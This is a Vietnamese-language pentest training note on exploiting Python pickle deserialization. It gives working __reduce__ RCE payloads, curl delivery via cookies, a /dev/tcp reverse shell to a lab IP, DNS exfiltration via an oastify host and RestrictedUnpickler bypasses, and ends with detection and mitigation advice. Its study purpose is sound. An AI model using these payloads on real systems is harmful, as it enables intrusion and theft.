

> **Prerequisites**: [[01-serialization-foundation|01. Serialization Foundation]]
> **Objectives**:
> - Hiểu cơ chế REDUCE opcode trong pickle VM
> - Craft payload `__reduce__` đạt RCE qua cookie/parameter
> - Phân tích pickle stream bằng `pickletools.dis()`
> - Nhận diện pickle signatures trong HTTP traffic (gASV, gAJw...)

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Application gọi `pickle.loads()` / `pickle.load()` / `cPickle.loads()` trên user-controlled data
> - Data thường truyền qua cookie, POST body, URL parameter, Redis cache, hoặc message queue
> - Không cần biết class structure của application — `__reduce__` bypass hoàn toàn

> [!danger] Python pickle là unconditionally unsafe với untrusted input
> Không có cách nào làm pickle an toàn với user input. `RestrictedUnpickler` có thể bị bypass. Cách duy nhất là không dùng pickle cho external data.

---

## Cơ chế tấn công

### Pickle VM và REDUCE Opcode

![[assets/img-16-pickle-reduce.png]]
*Hình 1: Pickle REDUCE opcode flow từ user input đến os.system() execution. __reduce__ trả về (callable, args) — attacker control cả hai.*

Pickle là một stack-based virtual machine với ~50 opcodes. Khi deserialize, VM đọc stream và thực thi opcodes theo thứ tự. Opcode nguy hiểm nhất là **REDUCE** (`R`, hex `0x52`):

```
REDUCE: Pop (callable, args) từ stack → call callable(*args) → push result
```

Python cho phép bất kỳ class nào định nghĩa `__reduce__()` — method này trả về một tuple `(callable, args)` để pickle VM execute khi reconstruct object. Attacker tạo class với `__reduce__` trả về `(os.system, ("malicious_command",))` → khi unpickle, `os.system("malicious_command")` được gọi.

### Tại Sao Không Thể "Sandbox" Pickle

```python
# Attempt 1: Kiểm tra type trước khi loads()
data = base64.b64decode(cookie)
if data.startswith(b"pickle"):  # WRONG — pickle không có magic prefix như vậy
    ...

# Attempt 2: RestrictedUnpickler (vẫn bypassable)
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == "os":
            raise pickle.UnpicklingError("Blocked!")
        return super().find_class(module, name)
# Bypass: dùng subprocess, builtins.eval, __builtins__["exec"]...
```

---

## Quy trình tấn công

**Môi trường giả định**: Flask app tại `http://10.10.10.50:5000/`, cookie `auth` chứa base64-encoded pickle.

### Bước 1 — Nhận Diện Pickle Trong Traffic

```bash
# Intercept cookie bằng Burp Suite, decode base64
echo "gASVbgAAAAAAAACMBW9zLnN5..." | base64 -d | python3 -c "
import sys, pickletools
pickletools.dis(sys.stdin.buffer.read())
"
```

> **Expected output**: Danh sách opcodes bao gồm `REDUCE` với callable là class object → confirm pickle deserialization.

```bash
# Quick signature check — không cần decode
echo "gASV..." | base64 -d | xxd | head -2
# \x80\x04 = Python 3 protocol 4
# \x80\x02 = Python 3 protocol 2
# gASV và gAJw là base64 prefix phổ biến nhất
```

### Bước 2 — Craft Payload

```python
#!/usr/bin/env python3
# gen_payload.py — tạo pickle RCE payload

import pickle, os, base64

class RCE:
    def __reduce__(self):
        # Confirm RCE với sleep trước khi shell
        return (os.system, ("sleep 5",))

payload = base64.b64encode(pickle.dumps(RCE())).decode()
print(f"Payload: {payload}")
```

```bash
python3 gen_payload.py
# Payload: gASVHAAAAAAAAACMAnN5...
```

### Bước 3 — Confirm RCE (Sleep Test)

```bash
PAYLOAD=$(python3 -c "
import pickle, os, base64
class S:
    def __reduce__(self): return (os.system,('sleep 5',))
print(base64.b64encode(pickle.dumps(S())).decode())
")

# Timing test
START=$(date +%s)
curl -s http://10.10.10.50:5000/ -H "Cookie: auth=$PAYLOAD" -o /dev/null
END=$(date +%s)
echo "Elapsed: $((END-START))s"
# 5s delay → confirmed pickle RCE
```

> **Expected output**: Response delay ~5 giây → `Elapsed: 5s` → pickle deserialization confirmed.

### Bước 4 — Reverse Shell

```python
#!/usr/bin/env python3
import pickle, os, base64

LHOST = "10.10.14.5"
LPORT = "4444"

class Shell:
    def __reduce__(self):
        cmd = f'bash -c "bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1"'
        return (os.system, (cmd,))

payload = base64.b64encode(pickle.dumps(Shell())).decode()
print(payload)
```

```bash
# Listener
nc -lvnp 4444 &

# Deliver
python3 gen_shell.py | xargs -I{} curl -s http://10.10.10.50:5000/ \
  -H "Cookie: auth={}"
```

> **Expected output**: Reverse shell nhận → `uid=1000(www-data)`.

### Bước 5 — Blind RCE (Không Có Outbound Shell)

```python
# Khi outbound bị block — dùng DNS exfil
import pickle, os, base64, subprocess

class DNSExfil:
    def __reduce__(self):
        cmd = "nslookup $(id | md5sum | cut -c1-8).COLLAB.oastify.com"
        return (os.system, (cmd,))

# Hoặc write file để verify
class FileWrite:
    def __reduce__(self):
        return (os.system, ("id > /tmp/pickle_pwn_$(date +%s)",))
```

---

## Biến thể & Bypass

### cPickle và Alternative Loaders

```python
# cPickle (Python 2 / C extension) — same vulnerability
import cPickle
cPickle.loads(user_data)  # identical behavior to pickle

# _pickle (built-in C impl in Python 3) — same
import _pickle
_pickle.loads(user_data)

# shelve, joblib cũng dùng pickle internally
import shelve
db = shelve.open("user_data")  # → pickle under the hood
```

### URL-Safe Base64 vs Standard Base64

```python
# Flask thường dùng base64url (- và _ thay + và /)
import base64

# Standard base64
payload_std = base64.b64encode(pickle.dumps(RCE())).decode()

# URL-safe (cho cookie usage)
payload_url = base64.urlsafe_b64encode(pickle.dumps(RCE())).decode()

# Try cả hai
```

### Vượt Qua RestrictedUnpickler

```python
# RestrictedUnpickler block os.system?
# Bypass 1: dùng builtins
class Bypass:
    def __reduce__(self):
        return (__builtins__["exec"], ("import os;os.system('id')",))

# Bypass 2: subprocess
import subprocess
class Bypass2:
    def __reduce__(self):
        return (subprocess.check_output, (["id"],))

# Bypass 3: eval qua getattr chain
class Bypass3:
    def __reduce__(self):
        return (eval, ("__import__('os').system('id')",))
```

---

## Cây quyết định



---

## Command Cheatsheet

**Detect & Analyze**

```bash
# Decode và disassemble pickle
echo "gASV..." | base64 -d | python3 -c "import sys,pickletools; pickletools.dis(sys.stdin.buffer.read())"

# Check magic bytes
echo "gASV..." | base64 -d | xxd | head -1
# 8004 = Proto 4 | 8002 = Proto 2
```

**Generate Payloads**

```python
import pickle, os, base64

# Sleep confirm
class S:
    def __reduce__(self): return (os.system, ("sleep 5",))

# Reverse shell
class R:
    def __reduce__(self): return (os.system, ("bash -c 'bash -i >& /dev/tcp/LHOST/PORT 0>&1'",))

# DNS exfil
class D:
    def __reduce__(self): return (os.system, ("nslookup $(whoami).collab.oastify.com",))

# File write
class W:
    def __reduce__(self): return (os.system, ("id > /tmp/out",))

for cls in [S, R, D, W]:
    print(f"{cls.__name__}: {base64.b64encode(pickle.dumps(cls())).decode()}")
```

**Deliver**

```bash
# Via cookie
curl TARGET -H "Cookie: session=$(python3 payload.py)"

# Via POST parameter
curl TARGET -d "data=$(python3 payload.py)"

# Via Burp Repeater — paste base64 in cookie value
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 10 ngày.

**Drill 1 — Nhận diện pickle signature**
Mục tiêu: nhìn base64 biết ngay đây là pickle.

```bash
# Pickle signatures:
gASV...  # Python 3 Protocol 4 (phổ biến nhất)
gAJw...  # Python 3 Protocol 2
gASVbg.. # Protocol 4 + short payload
KGNvcw.. # Python 2 Protocol 0 (text mode)
```

Luyện cho đến khi: phân biệt `gASV` (pickle) vs `rO0A` (Java) vs `O:4:` (PHP) trong < 2 giây.

**Drill 2 — Craft và deliver payload**
Mục tiêu: viết payload từ scratch không cần copy-paste.

```python
import pickle, os, base64
class R:
    def __reduce__(self): return (os.system, ("sleep 5",))
print(base64.b64encode(pickle.dumps(R())).decode())
```

Luyện cho đến khi: viết 5 dòng này mà không nhìn cheatsheet trong < 30 giây.

**Drill 3 — Full flow từ detect đến shell**
Mục tiêu: detect → craft → deliver → catch shell trong < 5 phút.

Luyện cho đến khi: không dừng lại tra cứu bất kỳ bước nào.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Code**: `pickle.loads()` / `cPickle.loads()` nhận input từ HTTP request / cookie / external source
> **Network**: Outbound DNS/TCP từ Python process sau khi nhận HTTP request
> **Process**: Unexpected subprocess từ Python/gunicorn/uwsgi process
> **Log**: `EOFError` hoặc `UnpicklingError` trong app logs → attacker đang thử payload

> [!note] Mitigation
> - **Không dùng pickle cho untrusted data** — period
> - Thay bằng JSON, MessagePack, hoặc Protocol Buffers
> - Nếu bắt buộc dùng pickle: HMAC-sign trước khi serialize, verify trước khi deserialize
> - Django 4.1+: không dùng `PickleSerializer` — dùng `JSONSerializer` (default)
> - PyTorch: `torch.load(..., weights_only=True)` từ version 2.0+

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| TryHackMe | **OWASP Top 10 2021** | Python pickle deserialization scenario |
| PortSwigger | **Python deserialization labs** | Step-by-step pickle exploitation |
| HTB | **Canape** (Retired) | Python pickle via CouchDB |
| Custom | **Vulnerable Flask app** | `docker run -p 5000:5000 vulnerable-flask-pickle` |
